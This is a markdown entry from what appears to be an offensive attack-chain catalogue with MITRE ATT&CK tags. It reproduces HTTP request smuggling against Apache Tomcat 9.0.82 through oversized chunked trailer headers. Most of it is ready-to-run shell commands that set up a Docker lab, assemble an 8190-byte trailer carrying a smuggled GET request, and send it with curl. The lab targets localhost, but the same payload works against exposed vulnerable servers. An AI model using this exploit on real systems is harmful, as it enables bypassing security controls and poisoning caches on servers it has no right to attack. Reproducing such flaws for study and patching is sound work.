

---
tags:
  - http-request-smuggling
  - tomcat
  - vulnerability-exploit
  - web
type: attack_chain
tools:
  - '[[tools/git]]'
  - '[[tools/cd]]'
  - '[[tools/docker-compose]]'
  - '[[tools/echo]]'
  - '[[tools/seq]]'
  - '[[tools/perl]]'
  - '[[tools/head]]'
  - '[[tools/cat]]'
  - '[[tools/curl]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/git-clone-repository]]'
  - '[[commands/cd-directory]]'
  - '[[commands/docker-compose-build]]'
  - '[[commands/docker-compose-up]]'
  - '[[commands/echo-create-file]]'
  - '[[commands/for-loop-append-string]]'
  - '[[commands/perl-append-crlf]]'
  - '[[commands/head-extract-lines]]'
  - '[[commands/cat-append-file]]'
  - '[[commands/perl-append-smuggled-request]]'
  - '[[commands/cat-pipe-to-curl]]'
platforms:
  - Web
  - Linux
  - Docker
complexity: medium
procedures:
  - '[[procedures/Setup-Vulnerable-Tomcat-Environment]]'
  - '[[procedures/Craft-Oversized-Trailer-Payload]]'
  - '[[procedures/Execute-Request-Smuggling-Attack]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploits a parsing vulnerability in Apache Tomcat to perform HTTP request
  smuggling using oversized trailer headers, potentially leading to security
  bypasses or cache poisoning.
skill_level: intermediate
impact_level: high
id: 87e6d3c7-0a24-4534-9823-ac8e8860685d
created_at: '2025-12-13T09:01:22.382Z'
updated_at: '2025-12-13T09:01:22.382Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# HTTP Request Smuggling via Oversized Trailer Headers in Apache Tomcat

Multi-stage attack chain demonstrating how to exploit a vulnerability in Apache Tomcat's HTTP trailer header parsing, leading to request smuggling. This allows an attacker to smuggle additional requests, potentially bypassing security controls or poisoning caches when Tomcat is behind a reverse proxy.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/git]]
- [[tools/docker-compose]]
- [[tools/echo]]
- [[tools/seq]]
- [[tools/perl]]
- [[tools/head]]
- [[tools/cat]]
- [[tools/curl]]

### Target Environment

- Linux with Docker
- Apache Tomcat 9.0.82
- Exposed port 8082

### Initial Access Requirements

- Local access to run Docker containers
- Ability to send HTTP requests to localhost:8082

## Detailed Attack Procedures

### Step 1: Setup Vulnerable Environment
procedure: [[procedures/Setup-Vulnerable-Tomcat-Environment]]

**Objective**: Prepare a vulnerable Apache Tomcat instance using Docker for exploitation testing.

**Instructions**: Start by cloning the reproduction repository using [[commands/git-clone-repository]]:

```bash
git clone https://github.com/oss-aimoto/tomcat-trailer.git
```

Then navigate to the directory with [[commands/cd-directory]]:

```bash
cd tomcat-trailer
```

Build the Docker images using [[commands/docker-compose-build]]:

```bash
docker-compose build
```

Finally, start the containers in detached mode with [[commands/docker-compose-up]]:

```bash
docker-compose up -d
```

**Expected Output**: Docker containers running with Tomcat listening on port 8082.

**Success Indicators**:
- Repository cloned successfully
- Containers built and started without errors
- Tomcat accessible at localhost:8082

### Step 2: Craft Malicious Payload
procedure: [[procedures/Craft-Oversized-Trailer-Payload]]

**Objective**: Construct an HTTP request with an oversized trailer header to trigger the parsing vulnerability.

**Instructions**: Create the trailer prefix file using [[commands/echo-create-file]]:

```bash
echo -n "testtrailer: " > 8190_EXCLUDE_COLON_SP_CR_LF.txt
```

Append 8179 'a' characters with [[commands/for-loop-append-string]]:

```bash
for i in `seq 8179`; do echo -n "a"; done >> 8190_EXCLUDE_COLON_SP_CR_LF.txt
```

Add CRLF using [[commands/perl-append-crlf]]:

```bash
perl -e 'print "\r\n"' >> 8190_EXCLUDE_COLON_SP_CR_LF.txt
```

Extract base request lines with [[commands/head-extract-lines]]:

```bash
head -11 base.txt > attack5.txt
```

Append the oversized trailer with [[commands/cat-append-file]]:

```bash
cat 8190_EXCLUDE_COLON_SP_CR_LF.txt >> attack5.txt
```

Append the smuggled request with [[commands/perl-append-smuggled-request]]:

```bash
perl -e 'print "a: GET /examples/?this_is_attack HTTP/1.1\r\nHost: attack\r\n\r\n"' >> attack5.txt
```

**Expected Output**: A crafted payload file 'attack5.txt' containing the malicious request.

**Success Indicators**:
- Files created and appended correctly
- Payload exceeds header size limit

### Step 3: Execute Request Smuggling Attack
procedure: [[procedures/Execute-Request-Smuggling-Attack]]

**Objective**: Send the crafted payload to the vulnerable Tomcat server to demonstrate request smuggling.

**Instructions**: Pipe the payload to the server using [[commands/cat-pipe-to-curl]]:

```bash
cat attack5.txt | curl telnet://localhost:8082/ --output -
```

**Expected Output**: Two HTTP responses: one for the original request and one for the smuggled GET request.

**Success Indicators**:
- Server interprets single request as multiple
- Smuggled request processed, indicating successful smuggling

## Attack Chain Summary

### Key Achievements

1. Established a vulnerable Tomcat environment
2. Crafted a payload that triggers the parsing error
3. Successfully smuggled an additional HTTP request

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: [TIMESTAMP]*
